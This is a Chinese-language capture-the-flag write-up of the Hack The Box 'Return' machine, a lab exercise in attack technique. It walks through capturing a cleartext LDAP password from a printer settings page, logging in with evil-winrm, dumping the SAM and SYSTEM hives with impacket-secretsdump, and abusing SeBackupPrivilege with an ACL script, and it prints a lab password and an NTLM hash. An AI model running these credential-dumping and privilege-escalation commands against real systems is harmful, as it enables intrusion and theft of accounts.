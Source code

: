 ```yaml
---
description: Easy / LDAP明文传输 / SeBackupPrivilege提权
---
```


# ✔️ Return

## 建立立足点

### 信息收集

* 使用Nmap对目标系统进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA return 10.129.95.241 --open
```

<figure><img src="../../.gitbook/assets/1 (32).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (30).png" alt=""><figcaption></figcaption></figure>

* 根据Nmap的输出信息发现目标系统开放了80端口，登录查看是一个打印机的管理员界面：

<figure><img src="../../.gitbook/assets/3 (27).png" alt=""><figcaption></figcaption></figure>

* 使用dirsearch没有找出来什么特别的隐藏文件/目录，在查看settings.php页面发现了域名、端口还有用户名和密码，其中密码部分无法查看：

<figure><img src="../../.gitbook/assets/4 (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (29).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (29).png" alt=""><figcaption></figcaption></figure>

* 将找到的域名和之前Nmap输出中的域名添加到hosts文件里：

<figure><img src="../../.gitbook/assets/7 (29).png" alt=""><figcaption></figcaption></figure>

* 先尝试使用不同工具进行匿名登录SMB均无收获，enum4linux信息收集也没有什么收获：

<figure><img src="../../.gitbook/assets/8 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10 (2) (1).png" alt=""><figcaption></figcaption></figure>

* 回到打印机settings的界面，它设置的端口389是LDAP协议，该打印机是通过LDAP连接到目标域进行身份验证的，这意味着用户svc-printer是一个域内用户账户，且LDAP是明文传输，因此当我们修改目标服务器地址为Kali本机地址时，并在本机做好监听后，即可读取到传输的明文密码内容：

<figure><img src="../../.gitbook/assets/11 (2) (1).png" alt=""><figcaption></figcaption></figure>

* 此时已获得一个有效凭证：<mark style="color:red;">**svc-printer:1edFg43012!!**</mark>&#x20;

### GET SHELL

* 通常当有了一个有效凭证后就可以尝试用evil-winrm来获取shell了（虽然并不总是管用）：

```bash
evil-winrm -i return.local -u svc-printer -p '1edFg43012!!'
```

<figure><img src="../../.gitbook/assets/12 (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传winPEAS进行信息收集：

```bash
# evil-winrm
upload /root/Documents/HTB-AD/return/info/winPEASx64.exe
.\winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/14 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* 在winPEAS的输出信息中，找到了当前账户的所有的权限中有sebackupprivilege权限，这意味着当前用户在目标系统中有了读取文件和数据的能力。因此，决定从目标系统的SAM中提取高权限用户的哈希，并以此作为登录的凭证：

<figure><img src="../../.gitbook/assets/15 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16 (2).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 创建一个/temp目录，并将HKLM的sam.hive和system.hive复制到 /temp目录下并下载：

```bash
# evil-winrm
mkdir C:\temp
reg save hklm\sam C:\temp\sam.hive
reg save hklm\system C:\temp\system.hive
```

<figure><img src="../../.gitbook/assets/17 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/18 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/19 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 再使用impacket-secretsdump获取NTLM哈希：

```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

<figure><img src="../../.gitbook/assets/20 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 最后使用获取到的Administrator账户的哈希，利用evil-winrm进行登录，以为是网络原因登录不成功，但换了时间尝试多次发现该账户应该是不能用hash进行登录：

```bash
evil-winrm -i return.local -u "Administrator" -H "34386a771aaca697f447754e4863d38a"
```

<figure><img src="../../.gitbook/assets/21 (14).png" alt=""><figcaption></figcaption></figure>

* 因此重新搜索关于SeBackupPrivilege的漏洞利用脚本，发现Acl-FullControl.ps1脚本适用于SeBackupPrivilege提权，它是在当前用户的权限下，修改指定路径的访问控制列表(ACL)，给低权限用户添加高权限，赋予它完全的控制权，从而达到提权的效果。
* 该命令将当前的svc-printer用户的访问控制权指向到c:\users\administrator\，执行成功的话就意味着我们对这个目录及其内容有完全控制权：

```powershell
Import-module .\Acl-FullControl.ps1; Acl-FullControl -user svc-printer -path c:\users\administrator\
```

<figure><img src="../../.gitbook/assets/22 (14).png" alt=""><figcaption></figcaption></figure>

* 上传脚本，并执行：

<figure><img src="../../.gitbook/assets/23 (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/24 (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/25 (11).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Get Shell阶段除了常规的枚举之外，还应注意那些最直接的信息。提权阶段锁定漏洞时，有时手动枚举可能会比工具枚举来的更快一些。特别是网络状况不太好时，传输文件会极其的慢。
{% endhint %}
